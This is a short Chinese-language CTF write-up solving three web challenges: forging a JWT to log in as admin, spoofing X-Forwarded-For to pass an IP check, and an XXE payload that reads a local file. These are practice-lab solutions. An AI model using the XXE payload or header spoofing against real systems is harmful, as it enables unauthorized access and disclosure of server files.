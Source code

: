
#   \<HFCTF2020>EasyLogin

打开题目，一个登录框，带有注册功能，尝试注册并登录后提示有`flag`，但无查看权限


那么显然我们需要以`admin`的身份登录，第一个方法是爆破密码，尝试了部分常见密码，无果。那么第二个方法，伪造登录凭证，
注册并登录，查看数据包，可以发现

![](https://null-d0ud.github.io/img/HFCTF2020EasyLogin2.png)

很显然，`jwt`解密，得到
```
{
    "header":{
    "alg":"HS256"
    "typ":"JWT"
    }
    "payload":{
    "secretid":0
    "username":"A"
    "password":"A"
    "iat":1649828192
    }
}
```

伪造`jwt`即可

# \<MRCTF2020>PYWebsite

打开题目，需要授权码获取`flag`,查看源码发现存在`flag.php`，直接访问，得到

>我已经把购买者的IP保存了，显然你没有购买
>
>验证逻辑是在后端的，除了购买者和我自己，没有人可以看到flag

修改请求头，添加`x-Forwarded-For:127.0.0.1`,得到`flag`


# \<NCTF2019>Fake XML cookbook

首先从题目名字已经很明显了，就是XXE，打开题目是登录界面，抓包，发现回显的数据是提交的用户名，对用户名进行外部实体声明，最终发现`flag`就在根目录下
```xml
<?xml version="1.0" ?>
<!DOCTYPE a[
<!ENTITY b SYSTEM "file:///flag">
]>
<user>
<username>
&b;
</username>
<password>
</password>
</user>
```
